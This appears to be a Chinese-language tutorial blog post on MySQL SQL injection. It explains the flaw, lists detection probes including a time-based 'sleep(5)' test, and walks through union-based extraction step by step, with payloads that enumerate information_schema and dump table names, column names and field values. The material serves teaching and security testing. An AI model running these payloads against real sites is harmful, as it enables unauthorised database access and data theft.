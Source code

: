 ```yaml
---
title: SQL注入
layout: post
background: https://cdnb.artstation.com/p/assets/images/images/007/095/957/large/mark-chang-lab3.jpg
subtitle: 红蓝思路.
artist: artstation.com/antoinecolligsq
---
```


# sql注入

sql是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息。

<br/>

只要功能点和数据库交互的地方都有能存在SQL注入

<br/>不同的数据库有不同注入语句,以下以mysql为例

## 数据库中的关键库,表,字段.

~~~
information_schema库
SCHEMATA表
字段: SCHEMA_NAME
TABLES表
字段:TABLE_SCHEMA TABLE_NAME
COLUMNS表
字段:TABLE_SCHEMA	TABLE_NAME COLUMN_NAME
~~~



## 根据数据类型划分

#### 整型注入（不需要闭合，不一定需要注释） 建议每次都加注释	

#### 字符串类型注入（需要闭合，或者需要注释）

##### 如何判断

第一种	

and 1=1   和 and 1=2 

<br/>

第二种 

+1和-1	(一般建议用-1 加号部分浏览器会将其转译为空格)

<br/>

第三种

' 	"		(通过报错信息可得知闭合条件)	

<br/>

第四种

and  sleep(5)	(通过是否延迟判断)

<br/>

# 根据注入的类型分类

### 可联合查询注入

~~~
union	必须包含相同的列数
order by 查看列数
limit 一个一个打印出来
group_concat()	一次性全部打印
--+	代表注释	也可用%23
~~~



1.判断注入类型

and 1=2  判断是整型还是字符型

'"	字符型的话通过报错信息查看如何闭合

<br/>

2.判断列数 以列数为3为例

order by  列数

<br/>

3.使用占位符 	--查看回显点

union select 1,2,3

<br/>

4.查看数据库名

union select  database(),...

5.爆库,获取表名

union select  1,2,group_concat(table_name)	from information_schema.tables  where table_schema='数据库名' --+

6.爆表,获取字段名

union select 1,2, group_concat(column_name)	from  information_schema.columns  where table_schema='数据库名' and table_name='表名' --+

7.获取字段值

union select  1,group_concat(字段名),group_concat(字段名) from 表名 --+